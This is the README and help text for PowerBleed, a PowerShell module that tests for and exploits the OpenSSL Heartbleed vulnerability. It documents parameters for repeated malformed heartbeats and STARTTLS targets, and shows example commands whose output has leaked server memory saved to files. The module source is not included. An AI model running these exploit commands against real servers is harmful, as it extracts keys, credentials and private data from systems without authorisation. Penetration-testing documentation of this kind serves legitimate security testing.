 ﻿
## PowerBleed

Powerbleed is a powershell module that allows you to check for the OpenSSL heartbeat
vulnerability, exploit it and write data to a file if desired.  Powerbleed defaults
to checking web based SSL/TLS on port 443, however will also support STARTTLS
based functionality for other protocols such as SMTP, IMAP, POP, and FTP.
Only a single heartbeat, and TLS connection is attempted by default after
heartbeat support is ascertained in the initial check.   This can be modified with the TLSTries,
and Heartbeats parameters.  By default, a random delay is introduced between heartbeats
which can be disabled if desired also.

Author: Joff Thyer, April-May 2014
Concept suggestion by Tim Tomes.

## Sponsors

[![Black Hills Information Security](http://www.blackhillsinfosec.com/_images/BHIS-Logo.png)](http://www.blackhillsinfosec.com)


<#
.SYNOPSIS

Exploit the OpenSSL 1.0.1 - 1.0.1f TLS HeartBeat vulnerability.
Author: Joff Thyer, April 2014
Concept suggestion by Tim Tomes.

.DESCRIPTION

Sends a malformed TLS heartbeat request as many times as you want to and write
the returned data into a file.

.PARAMETER Computername

Either a domain name or IP address can be provided.

.PARAMETER Port

The default TCP port is 443 however any other port may be specified
here.

.PARAMETER WriteFile

If this parameter is added, a file named "$Computername-port$Port-hb.dat" will be written
containing all of the binary data retrieved for a specific computer host.

.PARAMETER TLSTries

Perform a full TLS connection to the server this many times. The default
for this parameter is 1. More data may be leaked with continued connect
attempts.

.PARAMETER Heartbeats

For a single TLS connection, send this many heartbeat requests
and gather the resulting data.  This defaults to 1 also.

.PARAMETER HBLen

The length of the malformed heartbeat packet.  Defaults to 65535 bytes.

.PARAMETER NoRandomDelay

Disable the random delay between heartbeat requests.  The random
delay will be calculated between 0 and 1000 milliseconds.

.PARAMETER Timeout

The TCP timeout for a connect request.  Also this is the
read bytes timeout during the response reading.  This will
timeout if the server does not support the TLS heartbeat function.

.PARAMETER STLSProto

Use STARTTLS and define which protocol to support.
Choices are: IMAP, POP, SMTP, FTP.  Defaults to NONE.

.LINK

http://packetstormsecurity.com/files/126070/Heartbleed-Proof-Of-Concept.html

.NOTES

Author: Joff Thyer, April 2014
Version: 20140501-1011
Acknowledgments to Tim Tomes.

.EXAMPLE

Usage example within CMD.EXE only.  Assumes that module is contained within
current working directory.

C:\>powershell -command (Import-Module ./powerbleed.psm1); Test-Heartbleed -Computername 10.10.1.150 -Verbose


Powershell interactive usage examples:

PS C:\> Import-Module ./powerbleed.psm1

PS C:\> Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 5 -HBLen 32767 -Verbose
VERBOSE: Testing 10.10.1.150
VERBOSE: Sending Heartbeat support test packet
VERBOSE: Connection attempt number: 1
VERBOSE: Sending 5 TLS heartbeat packets
VERBOSE: :  2896 bytes returned from server. (2896 total bytes)
VERBOSE: : 29882 bytes returned from server. (32778 total bytes)
VERBOSE: :  8688 bytes returned from server. (41466 total bytes)
VERBOSE: : 24113 bytes returned from server. (65579 total bytes)
... some output omitted ...

Can also use the powershell pipeline to write bytes out to a file like this:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | `
              Select-Object -ExpandProperty Bytes | `
              Set-Content -Encoding Byte -Path ./file.txt

PS C:\> Test-Heartbleed -Computername 10.10.1.150 | Select-Object -ExpandProperty Bytes | Set-Content -Encoding Byte -Path ./file.txt


Or as a one line command with no pipeline with the -WriteFile argument.

PS C:\blah> Test-Heartbleed -Computername 10.10.1.150 -WriteFile
PS C:\blah> ls

    Directory: C:\blah

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          5/1/2014  10:08 AM       5793 10.10.1.150-port443-hb.dat
-a---          5/1/2014  10:08 AM      16179 powerbleed.psm1



Other examples:

PS C:\> Test-Heartbleed -Computername 10.10.1.150 -Heartbeats 3 -TLSTries 3 -NoRandomDelay -Verbose

PS C:\> Test-Heartbleed -Computername smtp.domain.tld -Port 25 -STLSProto SMTP -Verbose
VERBOSE: Testing smtp.domain.tld
VERBOSE: Sending Heartbeat support test packet
VERBOSE: smtp.domain.tld does not support TLS heartbeat.

Host                    Bytes                        Vulnerable String
----                    -----                        ---------- ------
smtp.domain.tld         {0}                          False

#>

